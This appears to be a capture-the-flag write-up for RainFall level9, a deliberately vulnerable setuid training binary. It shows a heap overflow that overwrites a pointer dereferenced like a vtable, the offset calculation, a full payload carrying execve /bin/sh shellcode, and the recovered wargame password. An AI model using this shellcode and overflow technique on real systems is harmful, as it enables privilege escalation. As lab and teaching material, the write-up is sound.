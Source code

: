 ### Permissions
As we can see in the permissions of the executable file, the binary `./level9` is executed with the privileges of the user **bonus0**, the owner of the file.
```bash
level9@RainFall:~$ ls -l level9
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```

## Exploit

We now know:
- the binary has user **level9** privileges
- we can overflow an address that will be used as a pointer to pointer to instructions (`vtable`, table of address of functions)
- the second instance address is our target

We'll use the `pattern create` + `pattern offset` combo to calculate the size of our payload.

```bash
pattern create 124
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9'
r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9'
```

The program tried to dereference `'MAAi'` which is at an offset of 108.

<details><summary>We are left with the same steps as for the level2</summary></details>

But this time we have to remember that our address get dereferenced a second time.
So we'll add another *heap address* at the very begining of our payload.

*heap address + 4* + *shellcode* + *83 times 'a'* + *heap address*

This will be the payload for our binary.
```bash
"\x10\xa0\x04\x08\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x0c\xa0\x04\x08"
```

### Solution

We can execute the buffer overflow with this line.
```bash
$ ./level9 $(printf "\x10\xa0\x04\x08\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x0c\xa0\x04\x08")
1���Qh//shh/bin��

cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
